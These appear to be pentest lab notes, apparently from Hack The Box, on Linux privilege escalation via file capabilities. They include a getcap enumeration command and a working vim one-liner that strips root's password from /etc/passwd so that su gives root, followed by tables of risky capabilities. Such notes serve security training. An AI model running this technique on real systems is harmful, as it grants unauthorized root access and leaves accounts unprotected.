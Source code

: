 ```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

Exploit with [GTFOBins](https://gtfobins.github.io)
#### Vim
```bash
adot8@htb[/htb]$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
```

Edit `/etc/passwd` ; login as root with no password
```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1
```

```bash
su
```
Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

|**Capability**|**Description**|
|---|---|
|`cap_setuid`|Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.|
|`cap_setgid`|Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.|
|`cap_sys_admin`|This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems.|
|`cap_dac_override`|Allows bypassing of file read, write, and execute permission checks.|

Here are some examples of values that we can use with the `setcap` command, along with a brief description of what they do:

|**Capability Values**|**Description**|
|---|---|
|`=`|This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.|
|`+ep`|This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.|
|`+ei`|This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.|
|`+p`|This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.|

|**Capability**|**Description**|
|---|---|
|`cap_sys_admin`|Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.|
|`cap_sys_chroot`|Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.|
|`cap_sys_ptrace`|Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.|
|`cap_sys_nice`|Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.|
|`cap_sys_time`|Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.|
|`cap_sys_resource`|Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.|
|`cap_sys_module`|Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.|
|`cap_net_bind_service`|Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.|